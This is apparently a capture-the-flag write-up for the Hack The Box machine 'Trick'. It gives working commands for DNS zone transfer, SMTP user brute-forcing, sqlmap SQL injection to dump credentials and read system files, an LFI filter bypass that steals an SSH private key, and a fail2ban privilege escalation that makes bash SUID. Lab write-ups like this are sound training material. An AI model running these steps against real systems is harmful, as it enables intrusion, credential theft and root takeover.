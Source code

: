 ### Enumeration
```bash
22 - OpenSSH 7.9p1 Debian 10+deb10u2
25 - Postfix
53 - BIND "9.11.5-P4-5.1+deb10u7-Debian"
80 - nginx 1.14.2 - unconfigured boostrap
```
```bash
nslookup
> SERVER 10.10.11.166
Default server: 10.10.11.166
Address: 10.10.11.166#53
> 10.10.11.166
166.11.10.10.in-addr.arpa       name = trick.htb.
>
```
```bash
dig axfr @10.10.11.166 trick.htb

; <<>> DiG 9.18.1-1-Debian <<>> axfr @10.10.11.166 trick.htb
; (1 server found)
;; global options: +cmd
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
trick.htb.              604800  IN      NS      trick.htb.
trick.htb.              604800  IN      A       127.0.0.1
trick.htb.              604800  IN      AAAA    ::1
preprod-payroll.trick.htb. 604800 IN    CNAME   trick.htb.
trick.htb.              604800  IN      SOA     trick.htb. root.trick.htb. 5 604800 86400 2419200 604800
;; Query time: 32 msec
;; SERVER: 10.10.11.166#53(10.10.11.166) (TCP)
 WHEN: Mon Jul 04 23:11:04 IST 2022
;; XFR size: 6 records (messages 1, bytes 231)
```

### SMTP
I went on a little bit of a rabbit hole with the SMTP server, but it wasn't completely useless  
I wrote this little python script, who attempts to find valid mail users, by bruteforcing VRFY  
```python
from email.mime.multipart import MIMEMultipart
from email.mime.text import MIMEText
import smtplib
import sys

rhost = "10.10.11.166"
rport = 25
path = "/usr/share/seclists/Usernames/xato-net-10-million-usernames.txt"

server = smtplib.SMTP(host=rhost,port=rport)
if server.noop()[0] != 250:
    print("[-]Connection Error")
    sys.exit()

with open(path, "r") as f:
    users = f.read().rstrip().split("\n")

for i in users:
    vrfy = server.verify(i)
    if vrfy[0] != 550:
        print(vrfy)
```
So I could find michael ahead of time  
```bash
python3 smtp_brute.py
(252, b'2.0.0 michael')
```

### SQLi
[http://preprod-payroll.trick.htb](http://preprod-payroll.trick.htb)  
  
we saw the the payroll portal from the dig earlier, but it can be found using gobuster vhost too
it has a login page, which is vulnerable to SQli  
  
![sqli](./sqli.png)

We now have access to the payroll portal, it might be worth testing the site for more SQLi vulns  
After trying sqlmap on various forms, the 'save deduction' form seems to be vulnerable  
  
![deductions](./deductions.png)

```bash
sqlmap -r save_deductions.req --batch --threads 10 -D payroll_db -T users --dump
```
```bash
Database: payroll_db
Table: users
[1 entry]
+----+-----------+----------------+------+---------+---------+-----------------------+------------+
| id | doctor_id | name           | type | address | contact | password              | username   |
---+-----------+----------------+------+---------+---------+-----------------------+------------+
| 1  | 0         | Administrateur | 1    | <blank> | <blank> | SuperGucciRainbowCake | Enemigosss |
+----+-----------+----------------+------+---------+---------+-----------------------+------------+
```

The SQli can also be leveraged to dump files that www-data has access to:  
```bash
sqlmap -r save_deductions.req --batch --threads 10 --file-read /etc/passwd
```
```bash
grep sh$ /home/blnkn/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_passwd
root:x:0:0:root:/root:/bin/bash
michael:x:1001:1001::/home/michael:/bin/bash
```

looking at the nginx virtual host config to know what the web folder names are  
```bash
sqlmap -r save_deductions.req --batch --threads 10 --file-read /etc/nginx/sites-available/default  
```
```bash
grep 'server_name\|root' /home/blnkn/.local/share/sqlmap/output/preprod-payroll.trick.htb/files/_etc_nginx_sites-available_default                       
        server_name trick.htb;
        root /var/www/html;
        server_name _;
        server_name preprod-marketing.trick.htb;
        root /var/www/market;
        server_name preprod-payroll.trick.htb;
        root /var/www/payroll;
```
this uncovers a new vhost - preprod-marketing  
[http://preprod-marketing.trick.htb/index.php](http://preprod-marketing.trick.htb/index.php)  
because we now have the web folder paths we can dump the source code  
```bash
sqlmap -r save_deductions.req --batch --threads 10 --file-read /var/www/market/index.php  
```
```php
<?php
$file = $_GET['page'];

if(!isset($file) || ($file=="index.php")) {
   include("/var/www/market/home.html");
}
else{
        include("/var/www/market/".str_replace("../","",$file));
}
?>
```
This points us to an LFI as the above can be evaded like this ..././..././..././  

### LFI
So we can now just dump michael's key, and get user access  
```bash
curl 'http://preprod-marketing.trick.htb/index.php?page=..././..././..././..././..././home/michael/.ssh/id_rsa' -o michael.pem
```

### Fail2Ban privesc
It is imediately apparent that the privesc will be something with fail2ban  
the makers of the box are hinting us to it in a few different ways  
there is a fail2ban config file in michael's home folder 
```bash
-bash-5.0$ ls -la
total 100
drwxr-xr-x 15 michael michael  4096 Sep 17 16:33 .
drwxr-xr-x  3 root    root     4096 May 25 13:28 ..
lrwxrwxrwx  1 root    root        9 Apr 22 09:47 .bash_history -> /dev/null
-rw-r--r--  1 michael michael   220 Apr 18  2019 .bash_logout
-rw-r--r--  1 michael michael  3526 Apr 18  2019 .bashrc
drwx------  9 michael michael  4096 May 11 21:09 .cache
drwx------ 10 michael michael  4096 May 11 21:08 .config
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Desktop
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Documents
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Downloads
drwx------  3 michael michael  4096 May 11 21:08 .gnupg
-rw-------  1 michael michael  1256 May 25 13:09 .ICEauthority
-rw-r--r--  1 michael michael  1536 Sep 17 14:22 iptables-multiport.conf
drwx------  3 michael michael  4096 May 11 21:07 .local
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Music
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Pictures
-rw-r--r--  1 michael michael   807 Apr 18  2019 .profile
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Public
drwx------  2 michael michael  4096 May 24 17:25 .ssh
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Templates
-rw-r-----  1 root    michael    33 Sep 17 01:51 user.txt
drwxr-xr-x  2 michael michael  4096 May 11 21:07 Videos
-rw-------  1 michael michael 12716 Sep 17 16:33 .viminfo
```
he has access to restart fail2ban  
```bash
-bash-5.0$ sudo -l
Matching Defaults entries for michael on trick:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User michael may run the following commands on trick:
    (root) NOPASSWD: /etc/init.d/fail2ban restart
```
and also has write access in /etc/fail2ban/actions.d
```bash
-bash-5.0$ cd /etc/fail2ban/
-bash-5.0$ ls -la
total 76
drwxr-xr-x   6 root root      4096 Sep 17 16:36 .
drwxr-xr-x 126 root root     12288 Sep 17 01:51 ..
drwxrwx---   2 root security  4096 Sep 17 16:36 action.d
-rw-r--r--   1 root root      2334 Sep 17 16:36 fail2ban.conf
drwxr-xr-x   2 root root      4096 Sep 17 16:36 fail2ban.d
drwxr-xr-x   3 root root      4096 Sep 17 16:36 filter.d
-rw-r--r--   1 root root     22908 Sep 17 16:36 jail.conf
drwxr-xr-x   2 root root      4096 Sep 17 16:36 jail.d
-rw-r--r--   1 root root       645 Sep 17 16:36 paths-arch.conf
-rw-r--r--   1 root root      2827 Sep 17 16:36 paths-common.conf
-rw-r--r--   1 root root       573 Sep 17 16:36 paths-debian.conf
-rw-r--r--   1 root root       738 Sep 17 16:36 paths-opensuse.conf
```
because he's part of the "security" group  
```bash
groups
michael security
```
a quick google search for "fail2ban privesc" an we know we can execute arbitrary command with this  
let's try to make a bash suid  
I'm now realising that that fail2ban file in the home folder is probably not a hint, but a leftover from somebody else, lets copy over the original.
```bash
cp /etc/fail2ban/action.d/iptables-multiport.conf iptables-multiport.conf
```
adding the chmod suid into the actionban command  
```bash
actionban = <iptables> -I f2b-<name> 1 -s <ip> -j <blocktype>
            chmod +s /usr/bin/bash
```
and placing the file back in action.d  
```bash
rm -rf /etc/fail2ban/action.d/iptables-multiport.conf
cp iptables-multiport.conf /etc/fail2ban/action.d/iptables-multiport.conf
```
then restarting the daemon  
```bash
sudo /etc/init.d/fail2ban restart
[ ok ] Restarting fail2ban (via systemctl): fail2ban.service.
```
Now of course we need to trigger the ban, lets do a bruteforce attack with hydra  
```bash
hydra ssh://trick.htb -l root -P /usr/share/wordlists/rockyou.txt
```
and we're in  
```bash
ls -la /usr/bin/bash
-rwsr-sr-x 1 root root 1168776 Apr 18  2019 /usr/bin/bash
bash -p
bash-5.0# wc -c /root/root.txt
33 /root/root.txt
```
let's not forget to put things back how they were, removing the config file from home and removing the suid flag from bash
